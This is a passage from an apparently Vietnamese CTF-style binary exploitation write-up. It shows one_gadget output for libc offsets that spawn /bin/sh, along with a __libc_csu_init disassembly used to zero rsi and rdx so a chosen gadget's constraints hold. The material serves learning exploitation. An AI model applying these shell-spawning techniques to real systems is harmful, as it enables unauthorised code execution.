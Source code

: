 ```cs
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

- libc_csu_init : 

```cs
<__libc_csu_init>:
0x00000000004012a0 <+64>:    mov    rdx,r14
0x00000000004012a3 <+67>:    mov    rsi,r13
0x00000000004012a6 <+70>:    mov    edi,r12d
0x00000000004012a9 <+73>:    call   QWORD PTR [r15+rbx*8]
0x00000000004012ad <+77>:    add    rbx,0x1
0x00000000004012b1 <+81>:    cmp    rbp,rbx
0x00000000004012b4 <+84>:    jne    0x4012a0 <__libc_csu_init+64>
0x00000000004012b6 <+86>:    add    rsp,0x8
0x00000000004012ba <+90>:    pop    rbx
0x00000000004012bb <+91>:    pop    rbp
0x00000000004012bc <+92>:    pop    r12
0x00000000004012be <+94>:    pop    r13
0x00000000004012c0 <+96>:    pop    r14
0x00000000004012c2 <+98>:    pop    r15
0x00000000004012c4 <+100>:   ret
........................
........................
```

- ở đây ta cần setup one_gadget để nó có thể thực thi , ta sẽ chọn og này : 

ta sẽ setup cho **r13** và **r14** thành NULL và nó sẽ được mov vào **rsi** và **rdx**

```cs
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```
